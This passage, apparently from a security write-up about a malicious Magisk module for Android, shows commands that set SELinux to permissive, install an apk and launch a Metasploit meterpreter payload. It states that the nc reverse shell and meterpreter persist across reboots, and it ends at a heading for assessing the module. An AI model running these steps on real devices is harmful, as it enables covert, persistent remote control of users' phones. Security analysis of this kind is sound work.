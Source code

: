 After changing SELinux to permissive with the `setenforce 0` command, we can then install the apk and execute it without encountering any issues.

```bash
pm install evil.pk

am start -n com.metasploit.stage/com.metasploit.stage.MainActivity
```

The `am` (Activity manager) is used to start the MainActivity of our meterpreter payload.

Finally we got the meterpreter shell. This shell is persistent, whenever the user reboot their device both the `nc` reverse shell and meterpreter is loaded. All we need to do is keep the listener open.

![Meterpreter Success](/assets/img/magisk_modules/magisk_exploit_success.png)


## Assessing the Malicious module

---
